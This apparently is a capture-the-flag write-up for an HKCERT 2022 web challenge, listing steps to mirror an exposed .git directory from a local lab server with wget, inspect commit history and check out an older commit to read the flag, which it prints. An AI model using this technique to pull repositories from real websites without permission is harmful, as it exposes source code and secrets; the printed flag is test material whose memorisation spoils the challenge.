






# Write-up

## Flow

1. Visit the webpage



2. Found that `./.git` exist. Crawl the webpage with `curl` or `wget`

```bash
wget --recursive --no-parent http://localhost:8081/.git/
```



3. Check Git history

```bash
git log
git reflog
```




4. Checkout commit

```bash
git checkout 4ba5380
cat flag.txt
```





## Flag

`hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}`
